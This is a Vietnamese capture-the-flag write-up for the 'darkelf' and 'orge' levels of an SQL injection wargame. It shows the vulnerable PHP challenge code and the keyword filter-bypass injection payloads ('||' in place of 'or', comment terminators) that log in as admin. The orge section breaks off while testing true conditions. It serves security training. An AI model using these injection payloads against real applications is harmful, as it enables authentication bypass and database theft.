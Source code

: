 ## darkelf

https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php?pw=%27%0a||%0aid=%27admin

Ký tự || thay thế cho toán tử **or**

```
query : select id from prob_darkelf where id='guest' and pw='' || id='admin'

Hello admin
DARKELF Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

## orge

Link challenge: [orge](https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php)

![image](https://user-images.githubusercontent.com/80137840/218033026-ad1f9b2a-5760-4248-93c2-6bba44dd88a2.png)

Server nhận giá trị của param **pw** trên URL rồi kiểm tra nếu có chuỗi **prob**, **or**, **and** không phân biệt hoa thường hoặc các ký tự '_', '.' , '()' thì exit chương trình, nếu không có thì server thực hiện truy vấn **Select id** tới CSDL và kiểm tra xem nếu có kết quả trả về thì hiển thị `Hello {$result[id]}`.

Tuy nhiên để solve được chall này, server kiểm tra password của **admin** trong CSDL nếu giống với **$_GET['pw']** thì mới solve chall. Như vậy ta cần phải tìm được password của **admin**.

![image](https://user-images.githubusercontent.com/80137840/218042174-0fa65b85-8ae6-4c9c-8f53-026df2ae15ad.png)

Để câu query thứ nhất nhận id='admin', ta inject đoạn SQL như sau: `'||id='admin'-- -` (sử dụng || do server filter **or**)

Khi đó trang web hiển thị message `Hello admin`

![image](https://user-images.githubusercontent.com/80137840/218045671-b3c7642a-3483-45b1-8da9-692a912ade0a.png)

Thử thêm vào 1 điều kiện true thì vẫn xuất hiện message `Hello admin`

![image](https://user-images.githubusercontent.com/80137840/218045062-a39b98c9-b476-4465-8b8f-b36a9568110a.png)
